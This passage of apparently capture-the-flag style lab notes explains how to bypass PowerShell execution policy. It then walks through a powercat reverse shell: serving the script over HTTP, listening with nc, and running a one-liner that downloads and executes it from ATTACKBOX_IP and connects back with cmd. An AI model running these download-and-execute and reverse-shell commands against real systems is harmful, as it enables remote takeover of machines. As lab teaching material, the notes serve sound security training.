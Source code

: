 PowerShell's execution policy is a security option to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts `.ps1` for security purposes. The PowerShell execution policy is set to `Restricted`, which means it permits individual commands but not run any scripts.

You can determine the current PowerShell setting of your Windows as follows,

`PS C:\Users\thm> Get-ExecutionPolicy`

We can also easily change the PowerShell execution policy by running:

`PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned`

### Bypass Execution Policy

Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to `bypass` policy which means nothing is blocked or restricted. This is useful since that lets us run our own PowerShell scripts.

`C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1`

#### Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. 

On your AttackBox, download it from GitHub and run a webserver to deliver the payload.

`user@machine$ git clone https://github.com/besimorhino/powercat.git`

Now, we need to set up a web server on that AttackBox to serve the powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In our case, we will be using port 8080.

```
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
```
On the AttackBox, we need to listen on port `1337` using `nc` to receive the connection back from the victim.

`user@machine$ nc -lvp 1337`

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,

`C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"`

After a couple of seconds, we should receive the connection call back:

### 10.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

-------------------------------------------------------

## Command And Control - (C2 Or C&C)
